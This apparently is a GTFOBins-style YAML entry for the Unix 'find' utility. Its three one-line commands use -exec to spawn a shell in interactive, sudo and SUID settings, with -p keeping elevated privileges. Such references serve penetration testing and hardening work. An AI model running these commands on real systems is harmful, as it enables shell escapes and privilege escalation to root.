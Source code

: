 ```yaml
---
functions:
  exec-interactive:
    - code: find . -exec /bin/sh \; -quit
  sudo-enabled:
    - code: sudo find . -exec /bin/sh \; -quit
  suid-enabled:
    - code: ./find . -exec /bin/sh -p \; -quit
---
```

